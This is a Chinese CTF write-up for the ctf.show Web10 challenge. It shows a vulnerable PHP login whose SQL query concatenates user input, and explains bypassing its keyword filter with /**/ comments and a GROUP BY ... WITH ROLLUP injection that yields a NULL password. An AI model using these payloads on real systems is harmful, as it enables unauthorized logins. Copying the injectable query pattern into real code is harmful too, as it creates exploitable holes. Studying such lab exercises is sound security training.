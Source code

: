 ```yaml
---
title: "Web10  @WEB"
date: 2023-07-24
draft: false
author: "W"
tags: ["web","ctf.show"]
---
```


 已经告诉了解题方法，根据提示解题即可

①.点取消，得源码②.虚拟表绕过

![](/ctf.show/17/1.webp)

1、下载源码

```php
<?php
		$flag="";
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		if(strlen($username)!=strlen(replaceSpecialChar($username))){
			die("sql inject error");
		}
		if(strlen($password)!=strlen(replaceSpecialChar($password))){
			die("sql inject error");
		}
		$sql="select * from user where username = '$username'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						if($password==$row['password']){
							echo "登陆成功<br>";
							echo $flag;
						}
				 }
		}
?>	
#源码中先根据用户名查询用户信息, 用户名通过以后, 再判断密码是否相同, 我们绕过用户名的过滤条件, 在使用 with rollup注入绕过密码
```

2、

```
with rollup 可以对 group by 分组结果再次进行分组,并在最后添加一行数据用于展示结果( 对group by未指定的字段进行求和汇总, 而group by指定的分组字段则用null占位)
```

我们使用万能用户名使SQL成立绕过用户名之后, 后台的SQL会查询出所有的用户信息, 然后依次判断查询处的用户名对应的密码和我们输入的密码是否相同, 这时候我们使用with rollup 对 group by 分组的结果再次进行求和统计, 由于with rollup 不会对group by 分组的字段( password)进行统计, 所以会在返回结果的最后一行用null来填充password, 这样一来我们的返回结果中就有了一个值为null的password , 只要我们登录的时候password输入框什么都不输, 那我么输入的password的值就是null, 跟查询出的用户密码相同( null == null), 从而登录成功

```sql
 a'/**/or/**/true/**/# 
```

3、使用下面的payload，拿到flag

```sql
a'/**/or/**/true/**/group/**/by/**/password/**/with/**/rollup/**/#
```

![](/ctf.show/17/2.webp)